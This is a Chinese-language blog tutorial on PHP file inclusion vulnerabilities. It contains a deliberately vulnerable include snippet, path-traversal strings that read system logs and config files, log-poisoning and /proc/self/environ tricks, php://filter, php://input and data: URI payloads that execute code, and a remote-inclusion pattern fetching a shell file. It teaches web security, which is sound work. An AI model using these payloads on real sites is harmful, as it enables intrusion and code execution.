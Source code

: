 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      php文件包含漏洞               # 标题 
subtitle:    #副标题
date:       2019-09-13              # 时间
author:     Von                      # 作者
header-img: img/post-bg-kuaidi.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - PHP
    - 文件包含

---
```


# 简介
在通过php的函数引入文件时，由于对传入的文件名没有进行有效的验证，进而导致了漏洞的产生。  
常见的文件包含函数有以下几个
``` php
include()   \\执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()  \\只要程序一运行就包含文件，找不到被包含文件时会产生致命错误，并停止脚本执行
include_once()  \\若文件中代码已被包含，则不会再次被包含
require_once()  \\若文件中代码已被包含，则不会再次被包含
```
当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。测试代码：
``` php
<?php
	$file = $_GET['file'];
	include $file;
?>
```
在同目录下有个1.txt，其内容为<? phpinfo(); ?>。则只需要访问：  
233.php?file=1.txt,即可访问到phpinfo界面。
![](/img/blog13-1.png)
而如果包含非PHP语法规范源文件时，将会暴露其源代码。
![](/img/blog13-2.png)
从上面这个例子我们可以看出,PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

# 漏洞分类
## 本地文件包含(LFI)
### 包含日志
日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:www.xxx.com<?phpinfo();?>则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

![](/img/blog13-3.png)
正常的php代码已经写入了 /var/log/apache2/access.log。然后进行包含即可。
![](/img/blog13-4.png)

**注意**
(1)除了我们包含 access.log 以外，我们还可以制造错误，然后包含 error.log
(2)如果出现包含不成功的情况，很有可能就是被 open_base_dir() 限制了
(3)实战中最好在凌晨的时候进行包含，要不然日志太大包含会失败
(4)除了 apache 和 nginx 的日志 还有很多其他的日志我们能利用，比如说 ssh 的日志

常见的路径还有以下这些:
```
?file=.htaccess    //包含同目录下的文件
?file=../../../../../../../../../var/lib/locate.db
?file=../../../../../../../../../var/lib/mlocate/mlocate.db    //linux中这两个文件储存着所有文件的路径，需要root权限
?file=../../../../../../../../../var/log/apache/error.log    //包含错误日志
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf    //获取web目录或者其他配置文件
?file=../attachment/media/xxx.file    //包含上传的附件
```

### 包含environ
利用条件:  
``` 
php以cgi方式运行，这样environ才会保持UA头。
environ文件存储位置已知，且environ文件可读
```
Apache在/proc/self/environ（环境变量）中存储各种值，例如访问者IP地址，用户代理，调用的脚本以及其他值。然后和包含日志一样,在User-agent修改成payload.

## php伪协议
### php://filter
通常情况下，当我们去包含php源码的时候，源码会被解析，我们就看不到源码了，这时候就可以利用读文件的方式读取到php源码。
常用句式：?file=php://filter/read=convert.base64-encode/resource=xxx.php,也可以用index.php?file=php://filter/convert.base64-encode/resource=index.php，效果和前面一样，只是没有read关键字，在绕过一些waf或许有用。
注意:  
php://filter在双off的情况下也可以正常使用；  
allow_url_fopen ：off/on  
alow_url_include：off/on

### php://input
可以访问原始数据的只读流(这个原始数据指的是POST数据)，将post请求中的数据作为php代码执行。  
利用条件:allow_url_include = On  
```
index.php
?file=php://input
POST:
<? phpinfo();?>
```
![](/img/blog13-5.png)

### data:URI schema
利用条件:
```
php版本大于等于php5.2
allow_url_fopen = On
allow_url_include = On
```
主要有以下两种利用方法:
```
index.php?file=data:text/plain,<?php phpinfo();?>
```
![](/img/blog13-6.png)
```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
加号+的url编码为%2b，PD9waHAgcGhwaW5mbygpOz8+的base64解码为：<?php phpinfo();?>

## 远程文件包含(RFI)
需要allow_url_fopen=On并且allow_url_include=On才能进行远程文件包含。
常见利用方法:  
```
?file=[http|https|ftp]://example.com/shell.txt
```

# 写在最后
写到这里实在是太困了，而且这几天状态也不是很好，很多东西还没有讲。唉，有机会下次补齐吧(咕咕咕)

# 参考文章
[天师的文章](https://www.k0rz3n.com/2018/11/20/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8B%20PHP%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/#1-php-input)  
[琪琪师傅的文章](http://codeqi.top/2018/03/14/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)  
[panda1g1师傅的文章](https://panda1g1.github.io/%2F2018%2F05%2F26%2F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%2F#%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%EF%BC%9A)  
[Chybeta师傅的文章](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)















